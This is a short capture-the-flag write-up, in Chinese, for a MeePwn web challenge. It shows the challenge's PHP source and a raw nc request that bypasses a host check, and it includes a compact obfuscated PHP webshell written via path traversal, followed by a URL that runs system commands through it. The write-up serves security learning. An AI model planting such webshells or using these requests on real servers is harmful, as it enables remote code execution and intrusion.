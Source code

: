 ```php+HTML
    echo '<h2 id="intro" class="neon">Seems like you are not belongs to this place, please comeback to ludibrium!</h2>';
    echo '<img src="assets/map.jpg" id="taxi" width="55%" height="55%" />';
    if(isset($_GET['is_debug']) and !empty($_GET['is_debug']) and $_GET['is_debug']==="1")
    {
        show_source(__FILE__);
    }
}

?>
<body background="assets/background.jpg" class="cenback">
</body>
<!-- is_debug=1 -->
<!-- All images/medias credit goes to nexon, wizet -->
</html>
<?php ob_end_flush(); ?>
```

一共需要绕过这些if

```
if($whoareyou==="alien.somewhere.meepwn.team")
    ⋮
    if($_GET['alien']==='@!#$@!@@')
        ⋮
        $_SESSION['auth']=hash('sha256', 'alien'.$salt);
            exit(header( "Location: alien_sector.php" ));

```

payload

```bash
echo -ne 'GET ..@alien.somewhere.meepwn.team/..//index.php?alien=%40!%23%24%40!%40%40 HTTP/1.1\r\nHost: 138.68.228.12\r\nConnection: close\r\n\r\n' | nc 138.68.228.12 80
```

之后有了认证过的PHPSESSID可以post一些数据，我们可以控制`type=/../super_secret_shell.php`让数据被存入一个php文件中，但是仅限40个字符

```php
<?=$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

// $_= '$<>/' ^ '{{{{' ----> $_ = '_GET'
// ${_GET}[_](${_GET})[__];
// final <?=$_GET[_]($_GET[__])
```

用这样的webshell，访问

```
http://138.68.228.12/alien_message/super_secret_shell.php?_=system&__=rgrep MeePwn /var/www/
```

————解法2

```
GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0
Host: human.ludibrium.meepwn.team
```
